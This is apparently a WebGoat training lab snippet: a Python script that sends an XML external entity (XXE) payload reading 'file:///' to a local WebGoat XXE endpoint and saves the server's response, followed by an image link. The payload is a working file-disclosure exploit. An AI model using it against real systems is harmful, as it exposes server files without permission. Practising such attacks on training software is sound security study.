 ```python
import requests
from os.path import abspath, dirname


base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}
result_file_name = "xxe4.txt"

relative_url = "/WebGoat/xxe/simple"
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

xml = '<?xml version="1.0"?> <!DOCTYPE comment [ <!ENTITY rootpath SYSTEM "file:///"> ]> <comment><text>&rootpath;</text></comment>'
headers = {'Content-Type': 'application/json'}

url = base_url + relative_url

r = requests.post(url, data=xml, headers = headers, cookies=cookie)
with open(result_file_path, 'w') as file:
    file.write(r.text)
```

![](xss4.PNG)
